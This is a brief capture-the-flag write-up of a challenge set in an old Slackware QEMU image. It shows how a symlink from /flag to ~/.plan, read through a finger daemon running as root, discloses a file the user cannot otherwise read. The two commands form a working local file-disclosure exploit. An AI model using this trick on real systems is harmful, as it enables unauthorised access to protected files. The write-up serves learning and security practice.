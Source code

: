 0x90s
=====

0x90s was a qemu image of an old slackware install. After logging in with the supplied credentials (`challenge/challenge`) you quickly found the flag in the / directory but without the permissions to access it. While looking around for something to exploit I noticed finger running with root privileges.

`$ ln -s /flag /home/challenge/.plan
$ finger -l challenge@localhost`

